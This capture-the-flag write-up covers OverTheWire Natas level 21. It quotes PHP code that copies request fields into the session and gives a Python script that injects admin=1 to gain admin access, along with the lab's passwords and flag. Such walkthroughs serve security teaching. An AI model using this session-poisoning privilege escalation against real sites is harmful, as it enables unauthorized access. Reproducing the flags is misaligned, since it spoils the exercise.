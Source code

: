 # Natas21

*	user: `natas21`
*	pass: `IFekPyrQXftziDEsUr3x21sYuahypdgJ`
*	url:
	*	[http://natas21.natas.labs.overthewire.org](http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21.natas.labs.overthewire.org)
	*	[http://natas21-experimenter.natas.labs.overthewire.org](http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21-experimenter.natas.labs.overthewire.org)
*	flag: `chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ`

## Procedure

1.	Function `print_credentials()` in main page, checks if `$_SESSION`
	has `admin` parameter and if its value is equal to `1`

		if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
			print "You are an admin. The credentials for the next level are:<br>";
			print "<pre>Username: natas22\n";
			print "Password: <censored></pre>";
		} else {
			print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
		}

2.	In "experimenter" page, if `$_REQUEST` contains `submit` key, all
	the contained attributes are saved in `$_SESSION`

		if(array_key_exists("submit", $_REQUEST)) {
			foreach($_REQUEST as $key => $val) {
				$_SESSION[$key] = $val;
			}
		}

3.	Well, the attack is defined. By passing `admin=1` in experimenter
	page, we will be able to get password for Natas22. Python
	[natas21.py](./scripts/natas21.py) will help us

		import requests

		target = 'http://natas21-experimenter.natas.labs.overthewire.org'
		auth = ('natas21', 'IFekPyrQXftziDEsUr3x21sYuahypdgJ')

		params = dict(debug='', submit='', admin=1)
		#                                  ^^^^^^^ <- this is the trick
		cookies = dict()
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		phpsessid = r.cookies['PHPSESSID']
		print r.text

		target = 'http://natas21.natas.labs.overthewire.org'
		params = dict(debug='')
		cookies = dict(PHPSESSID=phpsessid)
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		print r.text

	Let's try

		$ python natas21.py
		<html>

		[cut]

		</p>
		[DEBUG] Session contents:<br>Array
		(
		    [admin] => 1
		    [debug] =>
		    [submit] =>
		)

		<p>Example:</p>

		[cut]

		</html>

		<html>

		[cut]

		You are an admin. The credentials for the next level are:<br><pre>Username: natas22
		Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>

		[cut]

		</html>

